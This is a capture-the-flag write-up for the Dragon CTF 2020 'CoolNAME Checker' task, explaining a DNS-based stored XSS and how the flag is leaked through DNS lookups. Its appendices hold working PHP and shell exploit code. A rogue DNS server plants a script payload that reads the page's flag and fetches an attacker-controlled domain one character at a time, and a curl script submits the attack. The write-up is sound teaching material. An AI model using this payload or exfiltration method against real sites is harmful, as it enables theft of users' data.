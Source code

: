 # CoolNAME Checker - Dragon CTF 2020 (Network, 324p, 19 solved)

## Introduction
CoolNAME Checker is a network task.

There is a web server with a form asking for an IP address. The server will
contact the IP address submitted to resolve a randomly-generated domain name.

The form has a checkbox to request that an admin comes and a proof of work. The
flag is only displayed to the administrator.

## Vulnerability
When providing an IP address to the web server, it will make a `CNAME` query of
a randomly-generated domain name. If the answer is valid, it will be displayed.

The presence of a proof-of-work and a checkbox hints that the vulnerability is
an XSS -- and it is: crafting a DNS server that answers
`<script>alert(1)</script>` is enough to confirm that there is an XSS
vulnerability.

## Exploitation
The flag is only displayed to the administrator, in the HTML element with the
`flag` id. It can be obtained from `flag.textContent`.

The only problem is that the administrator is protected by a firewall that
blocks every outgoing connections, except for UDP port 53 (DNS requests). The
flag has to be exfiltrated with DNS requests.

DNS domains are case-insensitive and limited in length. It is thus not possible
to just query a domain with the flag in one of its sub domain, or use base64
encoding.

The solution used here is to make multiple requests to
`$idx-$char.example.org` in a loop with `$idx` the index of the loop and `$char`
the ASCII number of the `$idx`th character of the string.

The request is relatively short lived, so leaking the whole flag in one go is
not possible with this technique. Instead it is required to make multiple
requests to leak parts of the flags.

**Flag**: `DrgnS{MustLuuuuvDNS_dontYa}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php
const PORT = 5353;

$socket = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
socket_setopt($socket, SOL_SOCKET, SO_REUSEADDR, true);
socket_bind($socket, "0.0.0.0", PORT);

while(true) {
	socket_recvfrom($socket, $packet, 0xFFFF, 0, $addr, $port);

	$p = unpack("n6", $packet);

	$query  = substr($packet, 12, 6 + 3 + 1 + 4);
	$domain = substr($packet, 0, -4);

	$size = ord($domain[12]);
	printf("%s\n", substr($domain, 13, $size));

	$resp  = "";
	$resp .= pack("n", $p[1]); // id
	$resp .= pack("n", 0x8180); // flags
	$resp .= pack("n", 1); // 1 query
	$resp .= pack("n", 1); // 2 answers
	$resp .= pack("n", 0); // 0 authority
	$resp .= pack("n", 0); // 0 additional


	// answer
	$resp .= $query;

	$domain = [
		'<script>f=flag',
		'textContent;for(i=0;i<f',
		'length;i++)fetch(`//${i}-${f',
		'charCodeAt(i)}',
		'ds',
		'xer',
		'fr`)</script>',
	];

	$payload = "";
	foreach($domain as $d)
		$payload .= chr(strlen($d)) . $d;
	$payload .= "\x00";

	$resp .= "\xc0\x0c";
	$resp .= pack("n", 5); // cname
	$resp .= pack("n", 1); // in
	$resp .= pack("N", 0); // ttl
	$resp .= pack("n", strlen($payload)); // length
	$resp .= $payload;

	socket_sendto($socket, $resp, strlen($resp), 0, $addr, $port);
}
```

### pow.php
```php
#!/usr/bin/php
<?php
$i     = 0;
$nonce = $argv[1];
while(false === strpos(sha1("$nonce$i"), "313377"))
	$i++;

printf("%s\n", $i);
```

### pwn.sh
```sh
#!/bin/sh
nonce=$(curl http://reverse-lookup.hackable.software/ \
	| grep -oP '(?<="nonce" value=")[^"]+')
echo "nonce = $nonce"

pow=$(./pow.php "$nonce")
echo "pow = $pow"

exec curl -vv http://reverse-lookup.hackable.software/query? \
	--data-urlencode "nonce=$nonce" \
	--data-urlencode "pow=$pow" \
	--data-urlencode "srv=$1" \
	--data-urlencode 'for_admin=ON'
```

### flag.php
```php
<?php
$bits = [
	"0-84", "1-104", "2-101", "3-32",
	"4-102", "5-108", "6-97", "7-103",
	"8-32", "9-105", "10-115", "11-32",
	"12-58", "13-32", "14-68", "15-114",
	"16-103", "17-110", "18-83", "19-123",
	"20-77", "21-117", "22-115", "23-116",
	"24-76", "25-117", "26-117", "27-117",
	"28-117", "29-118", "30-68", "31-78",
	"32-83", "33-95", "34-100", "35-111",
	"36-110", "37-116", "38-89", "39-97",
	"40-125",
];

foreach($bits as $s) {
	$c = explode("-", $s)[1];
	echo chr($c);
}
```
